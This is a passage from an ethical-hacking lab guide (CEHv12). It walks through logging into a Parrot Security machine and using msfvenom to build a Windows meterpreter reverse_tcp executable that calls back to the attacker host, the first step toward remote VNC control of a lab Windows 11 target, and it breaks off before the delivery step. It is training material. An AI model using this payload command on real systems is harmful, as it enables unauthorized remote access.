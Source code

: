 Here, we will see how attackers can exploit vulnerabilities in target systems to establish unauthorized VNC sessions using Metasploit and
remotely control these targets.

Note: In this task, we will use the **Parrot Security** ( **10.10.1.13** ) machine as the host system and the **Windows 11** ( **10.10.1.11** ) machine as
the target system.

### 


1. Click **CEHv12 Parrot Security** to switch to the **Parrot Security** machine.
2. In the login page, the **attacker** username will be selected by default. Enter password as **toor** in the **Password** field and press **Enter**
    to log in to the machine.

```
Note: If a Parrot Updater pop-up appears at the top-right corner of Desktop , ignore and close it.
```
```
Note: If a Question pop-up window appears asking you to update the machine, click No to close the window.
```
### 


3. Click the **MATE Terminal** icon at the top of the **Desktop** window to open a **Terminal** window.
4. A **Parrot Terminal** window appears. In the terminal window, type **sudo su** and press **Enter** to run the programs as a root user.

### 


5. In the **[sudo] password for attacker** field, type **toor** as a password and press **Enter**.

```
Note: The password that you type will not be visible.
```
6. A **Parrot Terminal** window appears; type **msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe**
    **LHOST=[IP Address of Host Machine] LPORT=444 -o /home/attacker/Desktop/Test.exe** and press **Enter**.

```
Note: Here, the IP address of the host machine is 10.10.1.13 ( Parrot Security machine).
```
### 


7. This will generate **Test.exe** , a malicious file at the location **/home/attacker/Desktop** , as shown in the screenshot.
8. Now, create a directory to share this file with the target machine, provide the permissions, and copy the file from **Desktop** to the

### shared location using the below commands: 
